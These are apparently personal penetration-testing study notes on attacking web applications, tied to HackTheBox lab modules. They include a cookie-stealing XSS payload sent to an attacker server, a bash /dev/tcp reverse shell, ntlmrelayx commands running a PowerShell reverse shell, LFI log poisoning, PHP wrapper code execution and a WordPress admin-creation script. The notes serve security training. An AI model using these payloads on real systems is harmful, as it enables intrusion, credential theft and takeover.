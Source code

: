 ```yaml
---
layout: blank
pagetitle: Attacking Web Applications
---
```


[HackTheBox - Attacking Common Applications](https://academy.hackthebox.com/module/113/section/1087)

[HackTheBox - Attacking Common Services](https://academy.hackthebox.com/module/116/section/1140)

### Enumeration
- Install Wappalyzer when doing boxes/taking test
- `gobuster`
	- Very noisy! Enumerates dirs/files
	- Usage: `gobuster dir -u {IP} -w /usr/share/wordlists/dirb/common.txt -t {threads}`
	- Make sure it checks for .git
		- https://github.com/arthaud/git-dumper to dump the info
		- https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
- Check robots.txt
- Check for APIs with /FUZZ/v1 or /FUZZ/v2
- Fuzz default IIS servers!!! They can have stuff
- `whatweb` is like a local wappalyzer on kali
	- `whatweb http://{IP}`

### Exploitation
- Finding default passwords for HTTP basic auth
	- Use [LoginHunter](https://github.com/InfosecMatter/default-http-login-hunter) with a list of hosts to find things like cameras w default passwords
	- Can be very useful on internal engagements with hundreds/thousands of webservers
- HTTP Headers:
	- `HTTP User-Agent` can sometimes be displayed in logging pages, so modifying it could XSS or SQLi some sites
	- `Server` response can reveal info about server
- I guess try adding `{"admin":"True"}`  (or equivalent) against registration APIs? 
- If HttpOnly flag isn't on Auth cookies, we can steal them w/ XSS
	- `<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>`

### XSS Exploitation Example
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator

### Directory Traversal
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- `%2f` for `/` and `%2e` for `.` 
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

### File Inclusion
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**

### File Upload
- SVG upload can lead to XXE
- webshells found at /usr/share/webshells
- On boxes, try changing filename to include `../` - could upload root ssh key

### Command Injection
- ``dir 2>&1 \*\`|echo CMD);&<# rem #>echo PowerShell`` will check injected shell type
- Can use powershell for creating shells

### Wordpress
- Use `wpscan` and investigate the plugins
	- `wpscan --url http://{IP} --enumerate p --plugins-detection aggressive`
	- Look for `[!] This version is out of date`
	- Can use searchsploit for these plugins or the wpscan vuln database
- If signed into the wordpress page
	- Check out plugins from the inside
	- Check out the Backup Migration
		- Changing this to our IP can allow us to relay authentication (if signing is disabled)
		- `//{kali_ip}/test` with `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`
	- Try to upload a shell